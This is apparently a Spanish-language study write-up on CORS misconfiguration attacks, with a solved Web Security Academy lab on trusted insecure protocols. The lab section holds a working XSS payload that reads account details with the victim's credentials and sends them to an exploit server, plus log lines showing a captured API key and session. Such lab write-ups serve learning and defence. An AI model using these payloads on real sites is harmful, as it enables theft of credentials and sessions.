








## Exploiting XSS via CORS trust relationships

Incluso un CORS configurado «correctamente» establece una relación de confianza entre dos orígenes. Si un sitio web confía en un origen vulnerable al cross-site scripting (XSS), un atacante podría aprovechar el XSS para inyectar código JavaScript que utilice CORS para recuperar información confidencial del sitio que confía en la aplicación vulnerable.

Dada la siguiente solicitud:

```c
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Si el servidor responde con:

```c
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Entonces, un atacante que encuentre una vulnerabilidad XSS en `subdominio.sitio-web-vulnerable.com` podría utilizarla para recuperar la clave API, utilizando una URL como:

```c
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## Breaking TLS with poorly configured CORS

Supongamos que una aplicación que utiliza rigurosamente HTTPS también incluye en la lista blanca un subdominio de confianza que utiliza HTTP sin cifrar. Por ejemplo, cuando la aplicación recibe la siguiente solicitud:

```c
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

La aplicación responde con:

```c
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

## Lab: CORS vulnerability with trusted insecure protocols



Al iniciar el laboratorio observamos una lista de articulos.



Luego iniciaremos sesion con las credenciales  proporcionadas



Al iniciar session y interceptando el trafico encontraremos que hace una petición a `/accountDetals`



En esta ruta vemos que al hacer una petición `GET` obtendremos información del usuario



al agregar `Origin: https://evil.com` el servidor no nos refleja. Entonces al probar el dominio del sitio web, este si nos devuelve y refleja, por lo que en este sitio web solo esta permitido las peticion desde la mismo dominio.



Para poder obtener la información (apikey, session..) del usuario administrador tendremos que explotar antes un xss



En el subdominio `http://stock.0a5400e203221b24816d8a2f009600e9.web-security-academy.net/?productId=%3Cscript%3Ealert(1)%3C/script%3E&storeId=2` podemos explotar del parámetro `productId` 



Una vez encontrada la vulnerabilidad de xss, podremos enviar nuestro codigo malicioso y entregar a la victima.

```c
<!DOCTYPE html>
<html lang="en">

<body>
    <script>
        document.location="http://stock.0a5400e203221b24816d8a2f009600e9.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a5400e203221b24816d8a2f009600e9.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a6b00ad039d1bfb81d589a3015a0062.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
</body>
</html>
```

al guardar y entregar a la victima, podremos ver la información del usuario administrator.

```c
10.0.3.27       2025-09-22 23:44:12 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22AcF3AsOAB4lfOAp4W3bEXCfnF3I8Pw91%22,%20%20%22sessions%22:%20[%20%20%20%20%22b1c6hqpz71NMwssLN0fjFMjNtpcEsHHW%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

```c
10.0.3.27       2025-09-22 23:44:12  0000 "GET /log?key={  "username": "administrator",  "email": "",  "apikey": "AcF3AsOAB4lfOAp4W3bEXCfnF3I8Pw91",  "sessions": [    "b1c6hqpz71NMwssLN0fjFMjNtpcEsHHW"  ]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

## Intranets and CORS without credentials

La mayoría de los ataques CORS se basan en la presencia del encabezado de respuesta:

```c
Access-Control-Allow-Credentials: true
```

Sin ese encabezado, el navegador del usuario víctima se negará a enviar sus cookies, lo que significa que el atacante solo obtendrá acceso a contenido no autenticado, al que podría acceder fácilmente navegando directamente al sitio web de destino.

Sin embargo, hay una situación habitual en la que un atacante no puede acceder directamente a un sitio web: cuando forma parte de la intranet de una organización y se encuentra dentro del espacio de direcciones IP privadas. Los sitios web internos suelen tener un nivel de seguridad inferior al de los sitios externos, lo que permite a los atacantes encontrar vulnerabilidades y obtener un mayor acceso. Por ejemplo, una solicitud de origen cruzado dentro de una red privada puede ser la siguiente:

```c
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

Y el servidor responde con:

```c
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

